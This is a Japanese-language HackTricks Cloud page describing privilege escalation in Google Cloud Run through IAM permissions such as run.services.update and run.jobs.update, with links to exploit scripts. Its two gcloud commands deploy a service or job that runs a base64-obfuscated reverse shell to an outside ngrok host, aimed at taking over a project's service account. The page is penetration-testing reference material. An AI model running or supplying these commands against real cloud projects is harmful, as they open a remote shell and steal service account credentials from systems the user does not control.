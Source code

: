 # GCP - Run Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでのAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**する。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## run

### `run.services.create` , `iam.serviceAccounts.actAs`

_cloudfunctions.functions.create_ メソッドに似ていますが、このメソッドは**新しいCloud Runサービス**を作成し、呼び出されたときに、実行中のサーバーのメタデータAPIにアクセスして**サービスアカウントの**アクセストークンを返します。Cloud Runサービスがデプロイされ、トークンを取得するためのリクエストが実行されます。

このメソッドには以下の**権限が必要**です:

* _run.services.create_
* _iam.serviceaccounts.actAs_
* _run.services.setIamPolicy_ **または** _run.routes.invoke_

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

このメソッドは、正しく利用するためにビルドしてホストする必要があるDockerイメージを使用します。このイメージは、HTTPリクエストが行われたときにCloud Runがサービスアカウントのアクセストークンで応答するように設計されています。

このメソッドのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py)で見つけることができ、Dockerイメージは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage)で見つけることができます。

何らかの理由で、`gcloud run deploy`を使用すると、サービスを作成するだけでなく**更新権限が必要**になります。[**こちらの例**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh)を確認してください。

### `run.services.update` , `iam.serviceAccounts.actAs`

前述のものと同様ですが、サービスを更新する場合です。
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

以前の権限を自分に与えます。

### `run.jobs.create`,`run.jobs.run`,(`run.jobs.get`)

コマンドで指定されたサービスアカウントを盗むためにリバースシェルを持つジョブを起動します。[**ここでエクスプロイトを見つけることができます**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh)。

### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

前述のものと似ていますが、**ジョブを更新し、SAを更新し**、**コマンド**を**実行する**ことが可能です：
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

以前の権限を自分自身に与えます。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
